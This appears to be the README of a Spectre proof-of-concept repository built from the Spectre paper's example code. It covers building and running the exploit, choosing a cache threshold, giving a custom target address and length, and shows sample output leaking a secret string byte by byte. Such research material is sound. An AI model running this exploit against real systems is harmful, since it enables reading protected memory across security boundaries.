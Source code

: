 # SpectrePoC

Proof of concept code for the Spectre CPU exploit.

## Attribution

The source code originates from the example code provided in the "Spectre Attacks: Exploiting Speculative Execution" paper found here:

https://spectreattack.com/spectre.pdf

The source code in this repository was conveniently provided by Erik August's gist, found here: https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6

The code has been minimally modified to fix build issues and improve comments where possible.

## Building

The project can be built with GNU Make and GCC.

On debian these are included in the `build-essential` metapackage.

Building is as easy as:

`cd SpectrePoC`

`make`

The output binary is `./spectre.out`.

If the target CPU doesn't support the "rdtscp" instruction then the macro "NORDTSCP" must be defined.

`CFLAGS=-DNORDTSCP make`

If you want to build it manually, make sure to disable all optimisations (aka, don't use -O2), as it will break the program.

## Executing

To run specter with default cache hit threshold of 80, and the secret example string "The Magic Words are Squeamish Ossifrage." as the target, run `./spectre.out` with no command line arguments.

**Example:** `./spectre.out`

The cache hit threshold can be specified as the first command line argument. It must be a whole positive integer.

**Example:** `./spectre.out 80`

A custom target address and length can be given as the second and third command line arguments, respectively.

**Example:** `./spectre.out 80 12345678 128`

## Tweaking

If you're getting lackluster results, you may need to tweak the cache hit threshold. This can be done by providing a threshold as the first command line argument.

While a value of 80 appears to work for most desktop CPUs, a larger value may be required for slower CPUs. For example, on a AMD GX-412TC SOC, a value of 100-300 was required to get a good result.

## Contributing

Feel free to add your results to the "Results" issue. Include your cache hit threshold, OS details, CPU details like vendor Id, family, model name, stepping, microcode, Mhz, and cache size. These can be found by running `uname -a` and `cat /proc/cpuinfo`.

## Example output

The following was output on an AMD GX-412TC SOC, with a cache hit threshold of 100:

`./spectre.out 100:`

```
Using a cache hit threshold of 100.
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfedc8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfedc9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfedca... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedcb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedcc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfedcd... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedce... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedcf... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfedd0... Success: 0x63=’c’ score=2
Reading at malicious_x = 0xffffffffffdfedd1... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedd2... Success: 0x57=’W’ score=2
Reading at malicious_x = 0xffffffffffdfedd3... Success: 0x6F=’o’ score=2
Reading at malicious_x = 0xffffffffffdfedd4... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfedd5... Success: 0x64=’d’ score=2
Reading at malicious_x = 0xffffffffffdfedd6... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfedd7... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfedd8... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfedd9... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfedda... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfeddb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfeddc... Success: 0x53=’S’ score=2
Reading at malicious_x = 0xffffffffffdfeddd... Success: 0x71=’q’ score=2
Reading at malicious_x = 0xffffffffffdfedde... Success: 0x75=’u’ score=2
Reading at malicious_x = 0xffffffffffdfeddf... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfede0... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfede1... Success: 0x6D=’m’ score=2
Reading at malicious_x = 0xffffffffffdfede2... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfede3... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfede4... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfede5... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfede6... Success: 0x4F=’O’ score=2
Reading at malicious_x = 0xffffffffffdfede7... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfede8... Success: 0x73=’s’ score=2
Reading at malicious_x = 0xffffffffffdfede9... Success: 0x69=’i’ score=2
Reading at malicious_x = 0xffffffffffdfedea... Success: 0x66=’f’ score=2
Reading at malicious_x = 0xffffffffffdfedeb... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfedec... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfeded... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfedee... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfedef... Success: 0x2E=’.’ score=2
```

